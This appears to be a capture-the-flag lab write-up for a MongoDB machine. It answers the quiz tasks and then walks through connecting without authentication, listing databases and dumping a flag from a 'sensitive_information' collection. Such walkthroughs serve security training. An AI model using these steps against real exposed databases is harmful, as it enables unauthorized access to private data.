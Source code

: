 # MONGOD

## Task 01

There is 2 port running on this machine.

## Task 02

The service running on the port 27017 is `MongoDB 3.6.8`

## Task 03

This is a `Nosql` type database.

## Task 04

The mongodb command is `mongo`.

## Task 05

The mongo db command to show all database present on the db server is `show dbs`

## Task 06

The command to list the collections is `show collections`.

## Task 07
What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read? `db.flag.find().pretty()`.

## Root Flag

We'll try to connect with:

```bash
mongo [ip of the target]
```

Then once we are connect! <br/>

I try a:
```bash
show dbs
```

Got:

```bash
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
```

I tried to visit `admin`, `user` for nothing! Then I tried `sensitive_information` with:

```bash
use sensitive_information
```

Then

```bash
show collections
```

Can see a flag document so i decided to use the command we find before.

```bash
db.flag.find().pretty()
```

And after this we got this ->

```bash
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```
Here it is.
